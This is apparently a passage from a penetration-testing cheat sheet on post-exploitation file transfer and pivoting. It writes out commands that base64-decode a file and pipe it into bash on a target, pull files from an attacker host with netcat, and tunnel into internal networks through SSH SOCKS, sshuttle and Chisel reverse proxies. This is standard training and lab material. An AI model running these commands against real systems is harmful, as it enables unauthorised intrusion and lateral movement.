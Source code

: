 ```bash
cat $FILENAME | base64 #copy output

# On target
echo -n "$BASE64FILE" | base64 -d | bash # run the file in bash
nc -lvnp 443 < $FILENAME

# On target
nc $LHOST 443 > $FILENAME
```

## Pivoting

SSH access always gives you the easiest pivot. You can set up a SOCKS proxy by adding the `-D` flag as follows.

```
ssh $USERNAME@$RHOST -D 1080
```

This opens a SOCKS proxy on your machine’s port 1080, which is proxied to the target system. You can configure to use it with `proxychains` quite easily.

Another nice addition to the proxying portfolio is `sshuttle`, it does some magic to automatically proxy traffic from your host to a certain subnet through the target system.

```
sshuttle -r $USERNAME@$RHOST 10.1.1.0/24
```

If you only have Windows systems to deal with, `Chisel` comes highly recommended. It’s a bit more complicated to set up a full  SOCKS proxy, as it requires two sessions on the target. The required  commands are as below.

> On Kali:
>
> ```
> ./chisel server -p 8000 --reverse
> ```
>
> On target:
>
> ```
> .\chisel_windows_386.exe client $LHOST:8000 R:8001:127.0.0.1:9001
> ```
>
> Now we are listening on localhost:8001 on kali to forward that traffic to target:9001.
>
> Then, open the Socks server: On target:
>
> ```
> .\chisel_windows_386.exe server -p 9001 --socks5
> ```
>
> On Kali:
>
> ```
> ./chisel client localhost:8001 socks
> ```
